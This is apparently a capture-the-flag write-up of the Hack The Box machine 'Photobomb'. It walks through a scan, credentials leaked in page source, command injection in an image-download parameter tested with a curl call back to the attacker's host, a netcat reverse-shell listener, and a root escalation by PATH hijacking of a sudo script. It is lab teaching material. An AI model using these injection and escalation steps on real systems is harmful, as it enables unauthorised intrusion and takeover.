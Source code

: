 # Inital scan
I started by joining the machine and started nmap using ***-sC*** flag to run default scripts and ***-sV*** to retrieve the version number of the softwares running on the machine
```
karim@alpacino:~/Desktop/htb/photobomb$ nmap -sC -sV 10.10.11.182
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-07 06:47 EET
Nmap scan report for 10.10.11.182
Host is up (0.063s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp    open     http          nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
I found 2 ports running which are **22** wich is running **SSH** and port **80** which is running http and its redirecting me to http://photobomb.htb/ so added photobomb.htb to my **/etc/hosts/** file and visited the website and I found a static page with a link to another website
![image](img/1.png)
there was a link redirects me to printer directory but it requires a username and a password 
![image](img/2.png)
and if I type something like admin:admin I get a **401 # Authorization Required** error so returned back and viewed the source code and found some credentials photobomb.js file
![image](img/3.png)
![image](img/4.png)
The credentials are ***pH0t0:b0Mb!*** and if you just visit the link you will be able to access the printer dircetory which is basically a photo gallery
![image](img/5.png)
There is a feature for downloading the photos from the website so I tried to download an image and I captured the request using burp suite
![image](img/6.png)
# Initial access
Firstly I fired an http server using python
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
so I tried command injection in all parameters using the following command and it worked in the filetype parameter
```
curl $YOUR_IP
```
and I got a request in my python http server
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [07/Feb/2023 07:13:34] "GET / HTTP/1.1" 200 -
10.10.11.182 - - [07/Feb/2023 07:14:05] "GET / HTTP/1.1" 200 -
```
So I tried getting a reverse shell using python and I am using the [pentest monkey cheatsheet](https://pentestmonkey.net/cheat-sheet) and before that I sat up a netcat listner
```
karim@alpacino:~/Desktop/htb/photobomb$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
and I injected the python reverse shell in the filetype parameter
![image](img/7.png)
and I got a reverse shell with **wizard** user 
![image](img/8.png)
So I went to my home directory and found user.txt file and I was able to read it.
# Privilage Escalation
I tried to run sudo -l to find the command that I am able to run using sudo without using password
```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
So you can see that I can run cleanup.sh file using sudo without requiring a password
So I used cat command to show the contents of the file
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
you can see that the file is using find and cd command without specifying the full path so we can exploit it by changing the path variable and you can read [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) to be familier with this method
first we will make two file which are find and cd with the contents /bin/bash and give it the right permissions and run cleanup.sh file using sudo with the path changed to tmp and that't where we put our find and cd files and we got root
```
wizard@photobomb:/tmp$ echo "/bin/bash" > find
wizard@photobomb:/tmp$ echo "/bin/bash" > cd 
wizard@photobomb:/tmp$ chmod +x cd
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```

